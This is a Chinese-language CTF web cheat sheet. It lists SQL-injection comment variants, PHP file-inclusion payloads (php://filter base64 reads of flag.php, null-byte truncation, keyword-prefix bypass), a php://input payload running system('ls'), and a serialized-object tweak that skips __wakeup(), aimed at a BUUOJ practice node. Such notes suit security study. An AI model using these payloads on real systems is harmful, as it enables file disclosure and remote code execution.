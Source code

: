 ```
## js乱码

尝试alert出来可以获得可以正常使用的代码

## sql注入

--+和#和%23都需要尝试，有的时候某一个可以用

## include

```
php://filter/read=convert.base64-encode/resource=flag.php
```

如果遇到一些奇怪的关键字限制

```php
if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")){   //必须含有woofers或meowers或index字符串
　　　　　　include ($file . '.php');  //参数后拼接.php
}
```

两种方案，第一种是使用00截断

```
http://6bf8e619-2004-4945-8cf0-1b438d58e4c2.node4.buuoj.cn:81/index.php?category=php://filter/read=convert.base64-encode/resource=flag%00woofers
```

实测可以截断成功但是include出现了一些问题，暂时还不知道为什么，echo出来的参数是没有截断的，但是报错信息给出来的是可以截断的，这个问题暂时放一下

第二种方案是把关键字加在前面

```
http://6bf8e619-2004-4945-8cf0-1b438d58e4c2.node4.buuoj.cn:81/index.php?category=php://filter/read=convert.base64-encode/woofers/resource=flag
```

或者使用php://input，使用post传参数<?php system('ls') ?>

## 跳过反序列化__wakeup()函数

在反序列化字符串时，属性个数的值大于实际属性个数时，会跳过 __wakeup()函数的执行

比如

```
O:4:"xctf":1:{s:4:"flag";s:3:"111";}
```

改为

```
O:4:"xctf":2:{s:4:"flag";s:3:"111";}
```
